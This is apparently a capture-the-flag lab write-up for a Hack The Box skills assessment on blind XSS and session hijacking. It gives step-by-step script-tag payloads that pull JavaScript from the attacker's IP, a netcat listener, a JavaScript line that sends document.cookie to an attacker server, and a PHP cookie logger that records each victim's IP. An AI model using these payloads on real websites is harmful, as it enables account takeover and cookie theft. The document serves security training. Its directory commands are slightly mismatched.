


1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag


- What is the value of the 'flag' cookie?
	- **HTB{redacted}**


The target location is `<target IP>/assessment`. The website frontend is shown below.



Now if you click on the **Welcome to Security Blog**, you will be redirected to a new webpage where we need to supply the user input data.




After analyzing the input fields I found out that the email input field has user validation implemented. Now, I gave random data to those input fields except the email input field and posted the comment which basically just reloads the page. So we cannot see how our user input data is being handled so we need to apply **Blind XSS** method.


First I will try a couple of payloads and setup a listener to find out which input field is vulnerable to XSS injection.

```html
<!-- provide your attack machine's IP address-->
<script src=http://[OUR_IP]/[input_field_name]></script>
'><script src=http://OUR_IP/[input_field_name]></script>
"><script src=http://OUR_IP/[input_field_name]></script>
```

I used the `netcat` to setup the listener.

```bash
nc -lvnp 80
```

Now try each one of those payloads in each input field and set unique names so that when `netcat` captures the incoming requests then we can accurately identify which input field is vulnerable to XSS injection. 

I used the `"><script src=http://OUR_IP/[input_field_name]></script>` payload and got the below `netcat` output.

```bash
$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.15.33] from (UNKNOWN) [10.129.234.166] 59594
GET /website HTTP/1.1
Host: 10.10.15.33
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4472.101 Safari/537.36
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

So the **website** input field is vulnerable to XSS injection. Let's create a temporary directory at `/tmp` and include 2 files `index.php` and `script.js`.

```bash
mkdir /tmp/tmp/server
cd /tmp/tmpserver
```

Include the below JavaScript payload inside the `script.js` will grab the cookie value and send to `index.php` file in the `c` parameter.

```js
document.location="http://[OUR_IP]/index.php?c="+document.cookie;
```

Include the below PHP script inside the `index.php` file which will take the cookie value and create **cookies.txt** file and store the cookie value corresponding to its IP address.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now start the php listener to accept incoming requests before sending any payloads.

```bash
sudo php -S 0.0.0.0:80
```

We are using the ``"><script src=http://OUR_IP/script.js></script>`` inside the **Webpage** input field. After entering the details I got the flag value in the listener terminal screen.


